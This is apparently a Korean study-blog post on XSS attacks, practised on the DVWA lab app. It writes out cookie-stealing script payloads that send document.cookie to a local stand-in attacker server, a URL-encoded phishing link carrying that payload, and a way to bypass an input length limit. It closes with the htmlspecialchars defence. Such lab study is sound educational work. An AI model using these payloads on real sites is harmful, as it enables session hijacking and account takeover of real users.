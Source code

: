 ```yaml
---
title:  '[강의] 6주차 웹 해킹- 웹 해킹 기술 탐색 5'
excerpt: "week6"

categories:
  - study
  - hacking
tags: [study, virtualbox, kalilinux, hacking]

last_modified_at: 2021-07-31T08:06:00-05:00
classes: wide
--- 
```


### 6주간의 해킹 스터디 마지막 시간

6주차 스터디😽😽😽

강의링크는 오른쪽! => [goormedu](https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술)

<br>

이번 시간은 스크립트 코드 삽입을 통해 개발자가 고려하지 않은 기능이 작동하게 하는 치명적인 공격인 **크로스사이트스트리밍(XSS) 공격**에 대해 알아보겠습니다. 드디어 마지막 강의 까지왔다 화이팅~!!

<hr>

### XSS 공격

XSS공격에 대해 알아보기 전 XSS에서 사용하는 언어인 **자바스트립트 언어**에 대해서 알아보도록 합니다 🙋🏽!!

#### - 자바스크립트 (JS)

웹어플리케이션에서 사용되는 언어 HTML과 자바스크립트로 이루어져있음

> HTML : 텍스트, 이미지 등 정적인 내용 표시
> 
> 자바스크립트 : 동적인 기능을 구현 ( ex) 마우스를 가져가면 메뉴의 색이 변하는 것 )

JS 사용 방법!
~~~
<script>  script code    </script>
~~~ 


#### XSS 공격이란?

클라이언트 쪽의 웹브라우저를 공격하는 기법이다. 

만약 어떤 웹브라우저 기능이 입력값을 그대로 출력하는 것이라면, <script>와 같은 입력값이 그대로 웹페이지에 표시되면 위험하다. 
  
해커는 이 자바스크립트를 이용해 세션 쿠키를 알아내 탈취하게 되는 것이다.

#### XSS공격 2가지
> 1. reflected XSS
>
> 2. stored XSS
  
<br>
  
#### 1. Reflected XSS 공격
 
reflected는 script를 반사하기 때문에 붙여진 이름이다. 공격 순서를 알아보도록 한다.

먼저 해커가 한 사용자에게 이메일 등으로 피싱을 한다.
  
![1](https://user-images.githubusercontent.com/53431568/127724126-1218ea01-9dec-4acc-89d2-931aaaed49aa.PNG)

<br>
  
이때, 사용자가 피싱에 속아 클릭을 하게 되면 스크립트 코드가 삽입된 요청이 전송된다.
  
![2](https://user-images.githubusercontent.com/53431568/127724129-3d0a9ede-6cea-426b-8886-a526547ca6ad.PNG)

<br>
  
웹 어플리케이션은 스크립트 코드를 반사시켜 그대로 되돌려준다. 이렇게 되면 웹 브라우저는 스크립트를 실행하게 되고 얻어낸 쿠키를 해커에게 전달하게 된다.

![3](https://user-images.githubusercontent.com/53431568/127724134-af31a433-2e05-479d-8d6a-18a293cd9062.PNG)

<br>

해커가 얻어낸 세션 쿠키를 사용되면 해당 사용자의 계정으로 접속할 수 있게 된다.
  
![4](https://user-images.githubusercontent.com/53431568/127724131-8e03fa4f-29b5-49f3-88fc-a93cbb1da238.PNG)

  
  
#### 2. Stored XSS 공격

script코드가 한 번 저장되었다가 나중에 실행되는 공격!
  
먼저, 해커가 피싱을 하는 것이 아니라 서버의 게시판이나 방명록 같은 곳에 스크립트 코드를 남긴다.
  
![image](https://user-images.githubusercontent.com/53431568/127724500-9e13c762-5561-4e5f-9621-20b171b958b1.png)

<br>

이후 사용자가 방명록에 접속해 글을 읽게 되면 글을 읽은 사용자에게 스크립트 코드가 실행된다.

![image](https://user-images.githubusercontent.com/53431568/127724518-56784bb0-41e9-4ef1-8160-fccd2e574f91.png)

<br>
  
이 이후는 reflected XSS 공격과 같이 쿠키값이 해커에게 전달되고 해커는 해당 사용자의 계정으로 접속할 수 있게 된다.

![image](https://user-images.githubusercontent.com/53431568/127724536-c2e840d8-a148-470f-8a89-56f7bc683d8c.png)

 
### XSS 공격 실습 🚀
#### 1. Reflected XSS

먼저, `low`단계에서 실습! XSS(Reflected) 메뉴로 가면 다음과 같이 이름을 입력하는 웹브라우져가 실행된다.

![image](https://user-images.githubusercontent.com/53431568/127726951-17cb7939-486a-4efc-9275-4fcf6591b1fa.png)

이름을 입력하니 입력한 값이 다시 리턴되는 것을 볼 수 있다.

![image](https://user-images.githubusercontent.com/53431568/127727006-15841c20-3608-4aee-9286-1eb2a12449a1.png)

XSS 취약점을 찾기 위한 가장 간단한 방법은 script 태그를 입력폼에다 입력하는 것이다! 
  
`<script>alert(1)</script>`  명령어를 입력하니 다음과 같이 알림창이 뜨는 것을 확인하였다!! 이를 통해서 해커는 reflected xss 공격이 가능하다는 것을 파악하게 된다.  

![image](https://user-images.githubusercontent.com/53431568/127727055-81d832b0-9b44-4dbd-9ee4-3b72247a8a09.png)

이번에는 쿠키값을 알아보자!
  
`<script>alert(document.cookie)</script>` 입력하니 쿠키의 값이 출력되었다. 

![image](https://user-images.githubusercontent.com/53431568/127727115-08e82497-fe2e-4317-9d21-c1948b7314a4.png)


<br><br>

이번에는 알아낸 쿠키값을 해커가 관리하는 시스템과 같은 다른 시스템에 전달해보자!!!

먼저 터미널을 켜고 `tail -f /opt/lampp/logs/acess_log` 명령어를 통해 해커 호스트의 웹서버의 로그가 출력되는 것을 확인하고, 이후 발생하는 로그도 계속 확인하도록 한다.

![image](https://user-images.githubusercontent.com/53431568/127727168-3cb70cb9-fe82-42fa-8bea-0cdee6504cb0.png)

다음으로  `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>` 명령어를 reflected xss의 입력창에 입력해준다.

> 명령어를 해석하면, document.loaction은 뒤에 나오는 127.0.0.1 인 (지금 해커사이트라고 가정하는 주소)에 리다이렉트를 시켜주며, document.cookie 명령어를 이용해 cookie값을 찍어오게 된다.

아래 이미지를 보니, 입력한 후 터미널에 쿠키값이 넘겨진 것을 확인할 수 있다.  
  
![image](https://user-images.githubusercontent.com/53431568/127727310-fb7ec7ab-6814-40ce-b007-454e63ddb0da.png)
  

  <br>
  <br>
  
  
그런데 드는 의문이.. 개발자도 아니고 어떤 사용자가  <script></script> 를 직접 입력하려나..?! 😅😅😅

따라서 해커는 피싱을 이용해서 사용자가 자기도 모르는 새에 걸려들도록 한다고 한다! ㅎㅎ 그렇다면 간단한 피싱용 메일을 만들어보자!

처음과 같이 이름을 입력하고 이번에는 주소창을 주목! 파라미터 값으로 이름이 전달되는 것을 확인할 수 있다. 이름과 #을 제외한 주소를 복사하자! ctrl + v!  
  
  ![image](https://user-images.githubusercontent.com/53431568/127727435-ccef162e-0164-427b-9614-02ab7cc07f10.png)

  <br>  
  
  이제 피싱링크를 넣을 건데 아까 복사한 주소 뒤에 다음 명령어를 붙여준다. `<script>document.location%3D'http://127.0.0.1/cookie%3F'%2Bdocument.cookie</script>`
  
  뭔가 이상함을 감지했나요?! ㅎㅎ `= , ? , + ' 라는 문자들이 '%3F, %3F, %2B` 로 인코딩되었습니다. 이 이유는  gmail에서 링크를 삽입할때는 url인코딩 기법을 이용해서 인코딩을 거쳐야 하기 때문입니다.!!  주의주의~ 😊😊
  
  
  최종적으로 입력해야할 링크 코드는 다음과 같다.
  
  ~~~javascript
  http://localhost/dvwa/vulnerabilities/xss_r/?name=<script>document.location%3D'http://127.0.0.1/cookie%3F'%2Bdocument.cookie</script>
  ~~~
  
![image](https://user-images.githubusercontent.com/53431568/127727655-9fdc0205-7917-450e-85bf-41ddbfbe517a.png)

위와 같이 했다면 이메일을 보내고 체크! 내가 보낸 메일을 열고 링크를 클릭하니 아까와 같이 터미널 창에 쿠키값이 전달되는 것을 확인할 수 있었다.

![image](https://user-images.githubusercontent.com/53431568/127727771-cec42aa0-36b8-482e-b8fa-6c518d4eb2d4.png)

<br><br>
  
#### 2. Stored XSS
  
이 공격은 해커가 스크립트 코드를 서버에 직접 삽입해 웹 페이지 자체에서 실행된다. 때문에 해당 페이지를 방문하는 모든 사용자가 위험에 노출되는 무서운 공격이다.

dvwa의 Stored XSS 메뉴로 들어가면 방명록을 작성하는 것과 같은 페이지를 보게되는데 이때, 테스트 텍스트를 넣어보자! 나는 다음과 같이 아까 사용한  `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>` 코드를 입력하니 뒤에 글자 제한 때문에 코드가 잘린 것을 볼 수 있었다. 
  
![image](https://user-images.githubusercontent.com/53431568/127727913-e7cf860b-e476-4070-877c-c26deb1f8fc5.png)

이런 글자 수 제한은 간단히 우회할 수 있는데.. 입력창에서 마우스 오른쪽 클릭을 한 후 `inspect element`를 보면 아래에 창이 뜬다. 자세히 보면 maxlength 라는 파라미터가 있는데 이 값을 변경해 주면된다.!


나는 50-> 500으로 넉넉히 변경해주었다. 이제 입력이 가능하다! 

![image](https://user-images.githubusercontent.com/53431568/127727995-1e97c99b-6f2e-4f22-8dbc-626dbbb56fbb.png)

방명록에 입력후 버튼을 누르자 마자 바로 스크립트가 실행된다. 이는, 이 글이 있는 방명록 페이지에 접속하자 마자 스크립트가 실행되는 것이다. 

![image](https://user-images.githubusercontent.com/53431568/127728071-7b2d8eb7-32f2-4e72-88ba-6f3e3647a88a.png)

터미널을 확인하니 페이지에 방문하기만 해도 쿠키값이 넘어가는 것을 확인할 수 있었다.

![image](https://user-images.githubusercontent.com/53431568/127728104-96a029ea-da93-4bb9-8d4d-0a828d2fe204.png)

이런식으로 해커는 하나의 공격으로 다수의 사용자들을 공격할 수 있게 된다. 

<br><br>
  
### XSS 공격 대응 👨‍🏫

impossible 단계의 소스코드를 보면서 알아보자
  
![image](https://user-images.githubusercontent.com/53431568/127728266-50c4bf64-d38b-4f00-b04d-5fae57d83e74.png)
  
소스코드를 보니 `htmlspecialchars` 라는 함수를 사용하는데 이 함수는 몇몇 함수를 html entity 라는 것으로 변경하는 함수이다.
  
이를 통해서 페이지 상에서는 script 코드가 그냥 들어간 것 같지만 뒤에서는 이 코드를 **`다른 문자로 변경하여 실제로 코드 실행을 방지`**할 수 있게 한다.

실제로 restored reflect 페이지에서 `<script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>`를 submit 한 수, 페이지 빈 공간에서 
오른쪽 클릭을 한 후 View source를 확인해보면..
  
  ![image](https://user-images.githubusercontent.com/53431568/127728429-ed9e35a5-4165-4455-86bf-556184084438.png)

  다음과 같이 몇몇 문자가 다른 문자로 바뀐 것을 확인할 수 있다! (`&lt` 와 같은 전혀 다른 일을 수행하는 명령어로 교체됨)

  ![image](https://user-images.githubusercontent.com/53431568/127728396-832a08f1-2f16-42b9-a171-9d9b9e493f67.png)

  
  
#### 이미지 출처
  
[https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술](https://edu.goorm.io/lecture/4953/화이트해커가-되기-위한-8가지-웹-해킹-기술)
  
  
  
